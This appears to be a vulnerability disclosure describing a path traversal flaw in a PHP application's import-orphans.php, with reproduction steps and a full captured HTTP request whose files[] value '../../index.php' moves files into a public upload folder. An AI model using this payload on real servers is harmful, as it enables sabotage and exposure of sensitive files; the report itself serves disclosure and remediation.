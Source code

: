 # Description
Becase of lacking sanitization input for `files[]` parameter, The attacker can add `../` to move all of php files or any file on the system that has permissions to `/upload/files/` folder

![image](https://i.imgur.com/zWPCLJY.png)

# Step To Reproduce
1.  Using burpsuite tool to capture request of import-orphans.php function 
2.  Adding `../../[file name want to move]` in `files[]` parameter, in this step the attacker can move php files with the aim of sabotaging the system or read sentitive file in system like `passwd, access log, ...`
3.  Then access `webroot/import-orphans.php` to get a new name of file 
![image](https://user-images.githubusercontent.com/54875703/132315237-7eae3784-45f1-4539-8272-b825c5d619cb.png)
4. Then access `webroot/upload/files/[new name of file]` 

# Request move `index.php` file
```
POST /import-orphans.php HTTP/1.1
Host: 172.16.0.12:4444
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------41162972056717011663508504951
Content-Length: 388
Origin: http://172.16.0.12:4444
Connection: close
Referer: http://172.16.0.12:4444/import-orphans.php
Cookie: PHPSESSID=7simdbjnrvdjpeq6bkvfukrdvt;
Upgrade-Insecure-Requests: 1

-----------------------------41162972056717011663508504951
Content-Disposition: form-data; name="csrf_token"

ccc780a3231d3f7544fe9eaa9f3aea28756bdbfd1df824b726865ebaf1505fa1
-----------------------------41162972056717011663508504951
Content-Disposition: form-data; name="files[]"

../../index.php
-----------------------------41162972056717011663508504951--
```
![image](https://user-images.githubusercontent.com/54875703/132316953-c205dcf1-33f9-4532-9963-aa2b7653245a.png)

Then `webroot` returned Directory Listing because of moving `index.php` file to `/upload/files` folder
![image](https://user-images.githubusercontent.com/54875703/132317035-2a841f5a-e77a-4713-b4da-351aeeb2d275.png)
